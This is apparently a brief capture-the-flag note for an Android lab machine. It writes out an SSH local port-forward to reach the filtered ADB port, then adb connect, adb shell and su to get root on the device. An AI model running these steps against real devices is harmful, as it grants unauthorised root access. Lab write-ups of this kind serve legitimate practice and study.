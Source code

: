 f32017174c7c7e8f50c6da52891ae250
==user flag
adb connect ip port but it threw out a time out because the port was filtered im guessing, i assume i need to tunnel the connection to an open port somehow, but im not sure how to ... Check back when IppSec educates me.
Update:

to port forward:

ssh kristi@10.10.10.247 -p 2222 -L 5555:localhost:5555

this will connect to the device as ## UNAME - Linux

fromt there you can exploit freeciv with ADB (AndroidDebuggingBridge)
adb start-server
adb connect $IP:5555
adb shell
su
## Root achieved.
